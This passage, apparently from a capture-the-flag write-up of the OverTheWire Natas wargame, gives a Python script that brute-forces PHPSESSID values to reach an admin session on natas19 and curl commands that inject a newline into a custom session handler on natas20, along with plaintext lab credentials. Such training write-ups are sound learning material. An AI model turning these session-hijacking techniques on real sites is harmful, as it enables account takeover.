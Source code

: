 ```
            headers["Cookie"] = "PHPSESSID=" + str(k+30)
            if D2_digit == True:
                headers["Cookie"] += str(j+30) 
            if D3_digit == True:
                headers["Cookie"] += str(i+30) 
            headers["Cookie"] += "2d61646d696e; path=/; HttpOnly"
            conn.request("GET", "http://natas19.natas.labs.overthewire.org/index.php", "", headers)
            resp = conn.getresponse().read()
            if resp.find("are an admin") != -1:
                print resp
                sys.exit(0)

            if k == 9:
                D2_digit = True
    
        if j == 9:
            D3_digit = True

conn.close()
EOF
```

### natas20

**Target:**

```
http://natas20.natas.labs.overthewire.org/index.php
natas20
eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

**Vuln:** Session manipulation (via badly implemented custom session handler)

**Exploitation:**

```
$ curl -s -H "Authorization: Basic `echo -n 'natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF' | base64`" http://natas20.natas.labs.overthewire.org/index.php -b 'PHPSESSID=mySessionID' -d 'name=%0aadmin+1'

$ curl -s -H "Authorization: Basic `echo -n 'natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF' | base64`" http://natas20.natas.labs.overthewire.org/index.php -b 'PHPSESSID=mySessionID'
```

### natas21

**Target:**

```
http://natas21.natas.labs.overthewire.org/index.php
natas21
IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

**Vuln:** Session manipulation (via 3rd party site colocated on the same machine as target)
